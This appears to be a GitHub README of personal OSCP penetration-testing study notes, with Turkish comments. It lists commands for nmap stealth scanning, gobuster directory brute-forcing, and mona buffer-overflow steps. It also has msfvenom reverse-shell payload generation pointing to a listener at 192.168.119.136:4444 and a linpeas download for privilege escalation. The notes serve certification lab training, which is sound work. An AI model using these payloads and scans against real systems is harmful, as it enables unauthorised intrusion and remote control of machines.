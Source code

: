 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt
sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c
msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c

msf-pattern_create -l 5000 > exploit.txt
msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l
